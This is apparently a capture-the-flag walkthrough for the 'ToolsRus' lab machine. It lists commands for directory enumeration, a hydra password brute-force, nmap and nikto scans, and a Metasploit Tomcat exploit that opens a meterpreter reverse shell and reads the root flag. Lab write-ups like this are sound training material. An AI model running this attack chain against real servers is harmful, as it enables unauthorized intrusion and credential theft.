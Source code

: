 # ToolsRus

![](<../../.gitbook/assets/Screenshot from 2020-09-09 09-18-23.png>)

### **What directory can you find, that begins with a "g"?**

```
gobuster -u http://10.10.199.79 \
         -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
         -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 09-29-26.png>)

### Whose name can you find from this directory?

```
curl http://10.10.199.79/guidelines/
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 09-25-25.png>)

### What directory has basic authentication?

{% hint style="success" %}
protected
{% endhint %}

### What is bob's password to the protected part of the website?

```
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/password.lst \
      http-get://10.10.199.79/protected -f -V -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 09-50-42.png>)

### What other port that serves a webs service is open on the machine?

```
nmap -sV -p1234,8009 10.10.199.79
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 10-00-02.png>)

### Going to the service running on that port, what is the name and version of the software?

![](<../../.gitbook/assets/Screenshot from 2020-09-09 10-01-40.png>)

### Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

```
hikto -h http://10.10.199.79:1234/manager/html -id bob:bubbles
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 13-29-38.png>)

### What is the server version (run the scan against port 80)?

```
nmap -sV -p80 10.10.199.79
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 10-30-09.png>)

### **What version of Apache-Coyote is this service using?**

![](<../../.gitbook/assets/Screenshot from 2020-09-09 13-33-34.png>)

### What user did you get a shell as?

```
msfconsole -q
msf5 > search type:exploit tomcat
msf5 > use 8
msf5 > options
msf5 > set RHOST 10.10.199.79
msf5 > set RPORT 1234
msf5 > set HttpUsername bob
msf5 > set HttpPassword bubbles
msf5 > set LHOST 10.9.101.193
msf5 > exploit
meterpreter > getuid
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 11-58-51.png>)

### What text is in the file /root/flag.txt

```
meterpreter > cat /root/flag.txt
```
